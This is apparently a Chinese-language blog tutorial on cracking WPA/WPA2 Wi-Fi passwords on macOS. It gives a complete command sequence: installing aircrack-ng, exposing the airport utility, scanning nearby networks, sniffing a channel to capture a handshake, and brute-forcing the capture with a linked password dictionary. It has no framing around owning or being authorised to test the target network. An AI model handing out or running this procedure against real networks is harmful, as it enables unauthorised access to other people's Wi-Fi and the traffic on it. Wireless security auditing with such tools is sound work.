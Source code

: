 # mac osx 破解wpa/wpa2 wifi

----

> 首先要安装aircrack-ng工具
可以使用Homebrew进行安装
```
brew install aircrack-ng
```
<!--more-->

> 第二步，我们将 airport 命令引入到用户命令里，在终端输入：
```
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```


> 第三步，用airport搜索附近wifi
```
sudo airport -s
```

结果如下图所示:
![image](/img/airport_s.png)
 

> 第四步，根据搜索出的wifi进行嗅探
```
sudo airport  en0 sniff  1
```
上面的en0为wifi card所在的地址, 有的也可能为en1, 可以根据实际情况输入, 可从以下地方获得:
![image](/img/wificard_addr.png)

1为你所要嗅探的wifi所在的CHANNEL.
默认嗅探的所存的文件在/tmp中, 以airportSniff**.cap形式命名.
wordlist 为wifi密码字典

> 第五步，就是使用aircrack-ng和下载的密码字典进行暴力破解
```
aircrack-ng -w wordlist airportSniff****.cap
```
一般输入如下所示:
![image](/img/aircrack-ng.png)

最后看上面cap文件内的抓包内容, Encryption列中找到WPA (1 handshake)—它表示抓包成功. 当然要找到你想破解wifi的成功抓包, 然后在「Index number of target network?」中输入该成功抓包所在的行号. 此示例中为1:
![image](/img/index-number.png)

破解过程如下:
![image](/img/running.png)

如果破解成功, 会显示 KEY FOUND!:
![image](/img/aircrack-ng-success.jpg)

密码词典：https://pan.baidu.com/s/1geH8EAn

参考：http://qiangweng.site/